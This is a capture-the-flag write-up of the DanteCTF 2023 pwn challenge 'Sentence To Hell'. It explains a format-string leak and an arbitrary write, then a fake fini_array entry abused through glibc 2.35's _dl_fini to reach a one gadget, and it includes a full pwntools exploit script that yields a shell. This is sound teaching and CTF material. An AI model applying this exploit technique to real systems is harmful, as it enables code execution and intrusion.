 ## Sentence To Hell

was a pwn challenge from **DanteCTF 2023**.

I did not have time to participate to **DanteCTF** as I was doing justCTF instead...

anyway I did this one quickly, which is a classic type of challenge where you can write a value to a chosen address to try to get code execution.

### 1 - The program

the program is small , so the reverse is quick 😋, here is the `main` (and only) function:

```c
int main(int argc, const char **argv, const char **envp)
{
  __int64 *target_addr; // [rsp+8h] [rbp-18h] BYREF
  __int64 value; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 canary; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("Please, tell me your name: ");
  fgets(your_name, 12, stdin);
  your_name[strcspn(your_name, "\n")] = 0;
  printf("Hi, ");
  printf(your_name);        // format string vuln, used to 
  puts(" give me a soul you want to send to hell: ");
  __isoc99_scanf("%lu", &value);
  getchar();
  puts("and in which circle you want to put him/her: ");
  __isoc99_scanf("%lu", &target_addr);
  getchar();
  *target_addr = value;      // write choosen value to target address
  puts("Done, bye!");
  return 0;
}
```

let's `checksec` the binary to see protection in place:

![checksec](./pics/checksec.png)

Ok.. so, the author of the challenge gave us a format string vulnerability, the line `printf(your_name)` which will be useful to leak various addresses,  like stack, libc, program base, etc...

then we can choose an address and a value to write. and the program return.

pretty classic.

**Useful to note:**  Here the library used is `libc 2.35  (Ubuntu GLIBC 2.35-0ubuntu3.1)` which is the libc used by `Ubuntu 22.04` distribution.

### 2 - Achieving code execution.

Well there are various way to achieve code execution, I found at least 3 different one, but maybe there are many more:

1. Leaking stack address with the format string vuln, and overwriting main return address on stack.
2. Leaking libc address with the format string vuln, and overwriting `strlen` libc GOT entry that will be called by `puts()`
3. leaking ld.so address with the format string vuln, and creating a fake `fini_array` table entry, that will be executed by `_dl_fini` called by `run_exit_handlers()` at program exits..

that's not so bad, for my exploit I will use a mix of option 1 and 3.

I have tried a one gadget single shot via option 1 or 2, but none of the one gadgets works..so I decide to go another way.

First I will overwrite main return address on stack, to return to main. I will do this two times, because the limited 11 chars input in `your_name` will not allow me to leak all the values I want with the format string in one turn.

* First round, I will leak stack and libc address.

* Second round, I will leak exe base and `rtld_global` address.

* Third round , I will create a fake `fini_array` table  in `your_name`variable, and will overwrite an entry in ld.so to points on it.  That fake `fini_array`table will point to a one gadget that works at this point, and we will get code execution.

to achieve code execution in the third round, let's have a look at  `_dl_fini` function in libc 2.35  file: `elf/dl-fini.c` (line 123)

```c
         /* Is there a destructor function?  */
          if (l->l_info[DT_FINI_ARRAY] != NULL || (ELF_INITFINI && l->l_info[DT_FINI] != NULL))
            {
              /* When debugging print a message first.  */
              if (__builtin_expect (GLRO(dl_debug_mask) & DL_DEBUG_IMPCALLS, 0))
                _dl_debug_printf ("\ncalling fini: %s [%lu]\n\n", DSO_FILENAME (l->l_name), ns);

              /* First see whether an array is given.  */
              if (l->l_info[DT_FINI_ARRAY] != NULL)
              {
                ElfW(Addr) *array = (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
                unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val / sizeof (ElfW(Addr)));
                while (i-- > 0)
                  ((fini_t) array[i]) ();
              }
```

we overwrite `l->l_info[DT_FINI_ARRAY]` pointer (which is 0x13b0 bytes after `_rtld_global` in `ld.so`) with the address 

of our `your_name`variable in .bss,  in this variable we will forge a `fini_array` entry.

you can see that the array pointer is calculated by adding `l->l_addr`to `l->l_info[DT_FINI_ARRAY]->d_un.d_ptr` which is the second pointer of the `fini_array` entry.

```c
ElfW(Addr) *array = (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
```

then this entry is called by:

```c
((fini_t) array[i]) ();
```

the `d_un` structure is declared like this:

```c
ptype l->l_info[DT_FINI_ARRAY]->d_un
type = union {
    Elf64_Xword d_val;				// address of function that will be called, we put our onegadget here
    Elf64_Addr d_ptr;				// offset from l->l_addr of our structure
}
```

So in our `your_name` variable, we put our onegadget and 0x4050, which is the offset to the  ̀your_name` variable..

you can check this mechanism under gdb, by putting a breakpoint like this:  `b *_dl_fini+445`

### 3 - The Exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l1', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

exe = ELF('./sentence_patched')
libc = ELF('./libc.so.6')

host, port = "challs.dantectf.it", "31531"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

# leak stack & libc address
sla('name: \n', '%p.%11$p.')
stack = int(rcu('Hi, ', '.'),16)
logleak('stack',stack)
libc.address = int(p.recvuntil('.',drop=True),16) - 0x29d90
logbase()
onegadgets = one_gadget('libc.so.6', libc.address)
# ret2main
target = stack+0x2148	# libcmain return address on stack
sla('hell: \n', str(libc.address+0x29d4c))
sla('her: \n', str(target))

# now we leak exe base & rltd_global address
target = stack+0x2148
sla('name: \n', '%13$p.%21$p')
exe.address = int(rcu('Hi, ', '.'),16)-0x1229
logleak('exe base',exe.address)
rtld = int(p.recvuntil(' ',drop=True),16)
logleak('rtld',rtld)
# ret2main again
sla('hell: \n', str(libc.address+0x29d4c))
sla('her: \n', str(target))

# write 
# makes l->l_info[DT_FINI_ARRAY] point to your_name variable on stack.. which will contains offset to a fake fini_array table (itself) which entry points to a onegadget
target = rtld+0x13b0
sla('name: \n', p64(onegadgets[8])+p16(0x4050)+b'\x00' )
sla('hell: \n', str(exe.address+0x4050))
sla('her: \n', str(target))

p.interactive()
```

you like to see fancy chars moving on screen?

![gotshell](./pics/gotshell.gif)

so it's finished, see you in the next world. *nobodyisnobody still learning..*
